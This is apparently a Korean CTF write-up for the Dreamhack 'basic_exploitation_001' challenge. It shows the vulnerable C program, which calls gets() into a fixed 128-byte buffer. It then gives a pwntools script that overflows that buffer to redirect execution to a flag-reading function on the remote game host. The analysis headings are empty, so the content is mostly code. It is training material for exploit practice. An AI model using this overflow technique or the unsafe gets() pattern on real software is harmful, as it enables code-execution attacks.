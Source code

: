 # 목차
1. 파일 분석

    1.1. 코드 분석

    1.2. 실행 파일 분석

2. 문제 풀이 코드



# **1. 파일 분석**

```
// basic_exploitation_001.c //

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```
1.1. 코드 분석


# **2. 문제 풀이 코드**

```
from pwn import *

payload = b'\x90'*128 + b'\x90'*4 + b'\xb9\x85\x04\x08' #buf + fsp + read_flag()

r = remote('host3.dreamhack.games', 12515)

r.send(payload)

r.interactive()
```